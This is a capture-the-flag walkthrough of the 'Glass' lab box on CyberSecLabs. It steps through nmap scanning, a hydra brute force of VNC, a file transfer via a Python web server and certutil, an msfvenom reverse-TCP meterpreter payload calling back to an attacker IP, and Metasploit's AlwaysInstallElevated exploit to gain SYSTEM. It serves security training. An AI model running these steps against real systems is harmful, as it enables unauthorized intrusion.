In this walkthrough, we'll go over a beginner level box called "Glass". Glass is one of the realistic and fun boxes on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).



Let's start the scanning process with nmap:
```bash
nmap -sS -sV -n 172.31.1.25
```


It looks like SMB and VNC ports are open, let's see if there are known vulnerabilites nmap can catch:
```bash
nmap -p139,445,5800,5900 --script vuln 172.31.1.25
```
After running nmap vuln scan, we receive nothing, but errors. We saw that SMB was open, let's check for null sessions:
```bash
smbclient -L 172.31.1.25 -N
```


"Access Denied". There is one option left which is brute forcing VNC. Let's give it a try:
```bash
hydra -s 5900 -P /usr/share/seclists/Passwords/Common-Credentials/best15.txt 172.31.1.25 vnc -V
```
For the dictionary, I am using seclists and since humans are lazy I think the best 15 passwords should be fine for brute forcing. if not, we can try the best110.txt file.



Wowww, we have a password "password", let's see if we can log into VNC:
```bash
vncviewer 172.31.1.25:5900
```


If we open "access" document, we'll see the first flag file. Let's put that into the flags and claim the user level flag:



This is great, but we need to be able to capture the root/system flag as well. In order to do that, we need to escalate our privileges. Let's transfer winPEAS over to the Windows machine, but first let's see what the architecture is:



By using ```python -m SimpleHTTPServer 80``` from the directory that winPEASx64.exe resides, we can then use certutil on our Windows machine to transfer the file:





If we look at the output of winPEAS, we'll see that "AlwayInstallElevated set to 1 in HKLM!" and "AlwaysInstallElevated set to 1 in HKCU!". I think we can use a metasploit module to exploit this vulnerability/misconfiguration:



In order to use, the metasploit exploit we need to get a sessions in msfconsole so let's create a exe file using msfvenom and upload that to the Windows machine:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.125 LPORT=4500 -f exe -o rTCP.exe
```


Configure msfconsole:



Let's send this shell to the background and configure "alway_install_elevated" exploit in msfconsole:



Wohoo, we got a shell as the system:



Let's go to the administrator's desktop and grab the system/root flag:



I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)

